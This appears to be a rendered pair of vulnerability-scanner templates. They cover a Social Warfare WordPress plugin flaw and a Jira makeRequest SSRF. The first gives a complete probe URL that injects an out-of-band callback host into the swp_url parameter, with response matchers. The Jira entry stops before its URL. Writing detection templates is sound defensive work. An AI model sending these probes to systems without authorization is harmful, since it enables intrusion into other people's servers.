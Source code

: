 # WordPress Social Warfare <3.5.3 - Cross-Site Scripting

## Description

- WordPress Social Warfare plugin before 3.5.3 contains a cross-site scripting vulnerability via the wp-admin/admin-post.php?swp_debug=load_options swp_url parameter, affecting Social Warfare and Social Warfare Pro.
- severity - medium
- tags - cve,cve2019,wordpress,wp-plugin,ssrf,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://{{interactsh-url}}

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# JIRA SSRF in the /plugins/servlet/gadgets/makeRequest resource

## Description

- The /plugins/servlet/gadgets/makeRequest resource in Jira before version 8.4.0 allows remote attackers to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.
- severity - medium
- tags - atlassian,jira,ssrf,oast,tenable,hackerone,cve,cve2019

## Requests

- Method - POST
- Method - POST

### URL
